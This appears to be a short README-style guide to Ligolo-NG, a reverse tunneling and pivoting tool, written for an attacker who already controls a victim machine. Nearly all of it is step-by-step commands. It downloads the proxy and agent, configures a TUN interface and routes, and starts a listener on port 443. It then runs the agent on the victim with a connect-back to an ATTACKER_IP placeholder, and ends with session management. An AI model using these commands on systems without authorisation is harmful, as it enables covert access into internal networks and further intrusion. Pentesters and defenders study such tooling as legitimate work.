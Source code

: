 Ligolo‑NG is a **reverse tunneling and pivoting tool** that allows you to create a secure tunnel between a compromised machine (running the _agent_) and your attacker machine (running the _proxy_). Once the tunnel is established, you can route traffic through the victim and access internal networks that are otherwise unreachable.

## 1. Download Proxy & Agent

On the **attacker machine**:
```bash
# Proxy
wget https://github.com/nicocha30/ligolo-ng/releases/<latest>/download/ligolo-ng_proxy_Linux_64bit.tar.gz
tar -xvf ligolo-ng_proxy_Linux_64bit.tar.gz

# Agent
wget https://github.com/nicocha30/ligolo-ng/releases/<latest>/download/ligolo-ng_agent_Linux_64bit.tar.gz
tar -xvf ligolo-ng_agent_Linux_64bit.tar.gz
```

## 2. Configure TUN Interface (Attacker)

```bash
# Create tun interface
sudo ip tuntap add user <your_kali_user> mode tun ligolo

# Remove conflicting route (if exists)
sudo ip route del 192.168.98.0/24 dev tun0

# Bring interface up
sudo ip link set ligolo up

# Add internal network route
sudo ip route add 192.168.98.0/24 dev ligolo
```

Check with:
```bash
ip route
```

## 3. Start Proxy (Attacker)
```bash
./proxy -selfcert -laddr 0.0.0.0:443
```


## 4. Run Agent (Victim)

Transfer the agent binary to the victim machine, then run:
```bash
./agent -connect <ATTACKER_IP>:443 -ignore-cert
```

### 5. Manage Sessions (Attacker)

Inside the proxy console:
```bash
session          # list active sessions
tunnel_list     # show tunnels
start            # start the tunnel for the chosen session
```
